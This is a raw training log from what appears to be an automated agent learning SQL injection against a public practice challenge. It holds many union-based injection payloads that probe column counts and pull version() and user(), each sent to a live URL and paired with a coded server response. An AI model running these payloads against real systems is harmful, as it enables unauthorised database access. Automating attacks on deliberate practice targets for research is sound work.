  0%|          | 64/1000000 [44:34<10772:53:30, 38.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with d

  0%|          | 65/1000000 [45:38<12873:25:12, 46.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.al

  0%|          | 66/1000000 [46:16<12144:34:18, 43.72s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 67/1000000 [46:17<8580:50:23, 30.89s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 68/1000000 [46:18<6084:10:06, 21.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 69/1000000 [46:18<4318:14:58, 15.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 70/1000000 [46:19<3102:12:11, 11.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 71/1000000 [46:20<2238:16:17,  8.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 72/1000000 [46:21<1634:32:45,  5.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 73/1000000 [46:21<1174:42:49,  4.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 74/1000000 [46:22<904:44:49,  3.26s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 75/1000000 [46:23<714:19:56,  2.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 76/1000000 [46:24<567:41:44,  2.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 77/1000000 [46:25<458:00:43,  1.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Se

  0%|          | 78/1000000 [47:18<4752:44:05, 17.11s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version

  0%|          | 79/1000000 [47:34<4674:45:18, 16.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'uni

  0%|          | 80/1000000 [48:49<9529:17:16, 34.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 81/1000000 [48:50<6737:10:19, 24.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 82/1000000 [48:51<4775:57:58, 17.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 an

  0%|          | 83/1000000 [48:56<3766:16:47, 13.56s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 84/1000000 [48:57<2702:20:35,  9.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 85/1000000 [48:58<1966:23:24,  7.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number 

  0%|          | 86/1000000 [49:22<3390:52:09, 12.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php

  0%|          | 87/1000000 [50:25<7659:53:55, 27.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' an

  0%|          | 88/1000000 [51:26<10446:08:00, 37.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 89/1000000 [51:28<7460:02:28, 26.86s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 90/1000000 [51:29<5298:19:27, 19.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 91/1000000 [51:30<3770:46:37, 13.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1

  0%|          | 92/1000000 [52:59<10089:25:10, 36.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 93/1000000 [53:00<7123:16:41, 25.65s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 94/1000000 [55:45<18773:35:13, 67.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 95/1000000 [55:46<13202:39:15, 47.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user

  0%|          | 96/1000000 [55:54<9921:47:34, 35.72s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 97/1000000 [55:55<7005:30:10, 25.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 98/1000000 [55:58<5134:14:08, 18.49s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 99/1000000 [55:58<3655:36:43, 13.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 100/1000000 [55:59<2640:24:05,  9.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 101/1000000 [56:00<1884:24:32,  6.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 102/1000000 [56:01<1379:31:57,  4.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 103/1000000 [56:02<1126:00:47,  4.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 104/1000000 [56:03<849:07:28,  3.06s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 105/1000000 [56:04<655:28:12,  2.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 106/1000000 [56:05<519:33:40,  1.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 107/1000000 [56:05<430:17:39,  1.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 108/1000000 [56:08<527:23:34,  1.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 109/1000000 [56:09<446:52:39,  1.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https:

  0%|          | 110/1000000 [57:25<6677:50:22, 24.04s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union sele

  0%|          | 111/1000000 [58:31<10094:51:37, 36.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 112/1000000 [58:32<7222:59:15, 26.01s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 113/1000000 [58:33<5133:36:19, 18.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 114/1000000 [58:34<3669:03:05, 13.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 115/1000000 [58:35<2628:56:14,  9.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 116/1000000 [58:35<1868:15:58,  6.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 117/1000000 [58:36<1375:24:03,  4.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 118/1000000 [58:37<1037:45:41,  3.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 119/1000000 [58:38<788:43:38,  2.84s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 120/1000000 [58:58<2265:06:31,  8.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server resp

  0%|          | 121/1000000 [1:00:04<7059:58:38, 25.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 122/1000000 [1:00:05<5003:18:50, 18.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 123/1000000 [1:00:05<3562:52:48, 12.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union s

  0%|          | 124/1000000 [1:05:09<27768:15:58, 99.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 125/1000000 [1:05:10<19516:06:57, 70.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 126/1000000 [1:05:10<13721:51:39, 49.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 127/1000000 [1:05:12<9769:56:49, 35.18s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 128/1000000 [1:05:13<6921:35:15, 24.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,

  0%|          | 129/1000000 [1:06:09<9485:39:36, 34.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
